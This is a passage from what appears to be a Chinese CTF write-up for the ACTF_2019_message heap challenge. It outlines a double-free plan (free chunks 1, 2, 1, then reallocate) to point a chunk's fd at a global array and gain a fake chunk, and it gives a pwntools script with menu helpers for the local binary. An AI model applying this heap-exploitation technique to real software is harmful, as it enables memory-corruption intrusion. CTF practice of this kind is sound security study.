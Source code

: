 按之前的思路，我们如果`malloc 0, 1, 2`，并`delete 1, 2, 1`，再`malloc 3`，这个`3`的`content/fd`我们就可以指向`array`，此时，我们再多次`malloc`，就可以获得`fake chunk`

先写好菜单

```python
from pwn import *
from typing import TypeVar, Callable

T = TypeVar("T", bound=Callable)

sh = process(["./ACTF_2019_message"])
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'


def menu(idx: int):
    def inner(func: T) -> T:
        def wrapper(*arg, **kwargs):
            sh.recvuntil(b"choice: ")
            sh.sendline(str(idx).encode())
            return func(*arg, **kwargs)
        return wrapper
    return inner


@menu(1)
def add(lengths: int, content: bytes):
    sh.recvuntil(b"length of message:\n")
    sh.sendline(str(lengths).encode())
    sh.recvuntil(b"input the message:\n")
    sh.sendline(content)


@menu(2)
def delete(idx: int):
    sh.recvuntil(b"you want to delete:\n")
    sh.sendline(str(idx).encode())


@menu(3)
def edit(idx: int, content: bytes):
    sh.recvuntil(b"you want to edit:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"edit the message:\n")
    sh.sendline(content)


@menu(4)
def show(idx: int) -> bytes:
    sh.recvuntil(b"you want to display:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"The message: ")
    msg = sh.recvuntil(b"\n", drop=True)
    return msg

```
